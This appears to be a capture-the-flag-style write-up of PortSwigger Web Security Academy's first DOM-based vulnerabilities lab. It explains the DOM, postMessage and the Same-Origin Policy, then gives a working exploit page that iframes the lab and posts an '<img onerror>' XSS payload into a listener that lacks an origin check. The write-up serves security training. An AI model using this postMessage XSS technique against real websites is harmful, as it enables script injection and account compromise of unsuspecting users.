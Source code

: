# Portswigger Web Security Academy | DOM-based Vulnerabilities Lab #1

Hi everyone! Today we’ll solve the first **DOM-based vulnerabilities** lab from the PortSwigger Web Security Academy. Let’s get started!

### What’s DOM ?

If you’ve never heard of the DOM (Document Object Model) before, it’s essentially the live, structured representation of a webpage that you see in the “Elements” tab of your browser’s developer tools.

When your browser loads a website, it first makes a GET request to fetch the initial HTML document. You can see this raw HTML by pressing CTRL+U or right-clicking and selecting “View Page Source.” However, this source code often isn’t identical to the DOM you see in the developer tools. The reason for this difference is DOM manipulation, which is typically performed by JavaScript.

Let’s take a React application as a concrete example. The initial HTML source code might look something like this:

```html
<!DOCTYPE html>
  <html lang="en">
  <head>
    <meta charset="UTF-8">
    <link rel="stylesheet" href="/assets/index-xxxx.css">
    <title>React Build Example</title>
  </head>
  <body>
    <div id="root"></div>
    <script type="module" src="/assets/index-xxxx.js"></script>
  </body>
</html>
```

As you can see, the **<body>** only contains a single empty **<div>**. But when you view the page, you see a fully interactive website with navigation bars, cards, and other elements. This happens because the JavaScript file _(/assets/index-xxxx.js)_ runs in the browser and dynamically adds, removes, and modifies elements within the DOM on the client-side. The DOM is the “living” version of the page, while the page source is the initial blueprint.

### What’s postMessage ?

Web messaging, often using the `window.postMessage()` method, allows scripts from different origins to communicate securely.

Normally, the browser’s **Same-Origin Policy (SOP)** prevents a script on `a.com` from accessing data or interacting with the DOM on `b.com`. This is a critical security feature that isolates websites from each other. While often confused with CORS (Cross-Origin Resource Sharing), CORS specifically governs cross-origin _HTTP requests_ (like `fetch` or `AJAX`), whereas the SOP is a broader policy that restricts script interactions between different origins.

The `postMessage` API provides a controlled exception to the SOP, enabling safe cross-origin communication between windows or iframes. Here’s a quick example of how it works:

**Parent page on** `**a.com**`**:**

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>a.com - Parent</title>
</head>
<body>
  <h1>a.com Parent Page</h1>
  <iframe id="myIframe" src="http://b.com/iframe.html" width="400" height="200"></iframe>
  <button id="sendBtn">Send Message to b.com</button>

  <script>
    const iframe = document.getElementById('myIframe');

    // Send a message to b.com iframe
    document.getElementById('sendBtn').addEventListener('click', () => {
      iframe.contentWindow.postMessage(
        { greeting: "Hello from a.com!" }, 
        "http://b.com" // target origin
      );
    });

    // Listen for messages from b.com
    window.addEventListener('message', (event) => {
      if (event.origin !== "http://b.com") return; // security check
      console.log("Received from b.com:", event.data);
    });
  </script>
</body>
</html>
```

A vulnerability arises when a page’s message event listener fails to properly validate the `origin` of an incoming message before processing its data.

### Lab Desc

![Lab Desc](./images/lab-desc-1.png)

The lab description mentions it uses web messaging. Let’s inspect the page’s JavaScript to see how it’s implemented.

![postMessage](./images/postMessage-1.png)

In the website’s code, we can see an event listener for messages. It takes the data from the message and writes it directly into the `ads` div using `innerHTML`. Crucially, **the code fails to perform any origin check** on the received message. This means any website can send a message to this page, and its content will be rendered directly into the DOM, creating a clear DOM XSS vulnerability. 

PortSwigger provides an exploit server to host our malicious HTML. Here is the payload I crafted. Just replace `<YOUR-LAB-ID>` with your unique lab identifier, store it, and then view the exploit.

```html
<!DOCTYPE html>
<html>
<head>
    <title>Exploit Page</title>
</head>
<body>
    <iframe src="https://<YOUR-LAB-ID>.web-security-academy.net/"></iframe>
    <script>
        // When the iframe is loaded...
        window.onload = function() {
            // ...send a malicious message to it.
            const iframe = document.querySelector('iframe');
            iframe.contentWindow.postMessage(
                '<img src=1 onerror=print()>', 
                'https://<YOUR-LAB-ID>.web-security-academy.net'
            );
        };
    </script>
</body>
</html>
```

![Exploit Server](./images/exploit-server-1.png)

When you “View exploit,” the iframe will load the vulnerable lab page. Your script then sends a `postMessage` containing an XSS payload. The vulnerable listener on the lab page will process this message without checking its origin and write the payload into its DOM, triggering the `print()` function.

![Exploit Test](./images/exploit-test-1.png)

Once you confirm the exploit works, just click “Deliver exploit to victim” to solve the lab.

Thanks for reading, and have a great day!